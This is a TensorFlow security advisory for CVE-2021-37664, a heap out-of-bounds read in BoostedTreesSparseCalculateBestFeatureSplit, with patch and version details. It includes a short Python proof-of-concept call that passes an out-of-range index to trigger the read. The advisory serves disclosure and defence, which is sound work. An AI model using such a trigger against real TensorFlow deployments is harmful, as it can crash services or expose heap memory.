 ## TFSA-2021-137: Heap OOB in boosted trees

### CVE Number
CVE-2021-37664

### Impact
An attacker can read from outside of bounds of heap allocated data by sending
specially crafted illegal arguments to
`BoostedTreesSparseCalculateBestFeatureSplit`:

```python
import tensorflow as tf

tf.raw_ops.BoostedTreesSparseCalculateBestFeatureSplit(
  node_id_range=[0,10],
  stats_summary_indices=[[1, 2, 3, 0x1000000]],
  stats_summary_values=[1.0],
  stats_summary_shape=[1,1,1,1],
  l1=l2=[1.0],
  tree_complexity=[0.5],
  min_node_weight=[1.0],
  logits_dimension=3,
  split_type='inequality')
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/boosted_trees/stats_ops.cc)
needs to validate that each value in `stats_summary_indices` is in range.

### Patches
We have patched the issue in GitHub commit
[e84c975313e8e8e38bb2ea118196369c45c51378](https://github.com/tensorflow/tensorflow/commit/e84c975313e8e8e38bb2ea118196369c45c51378).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
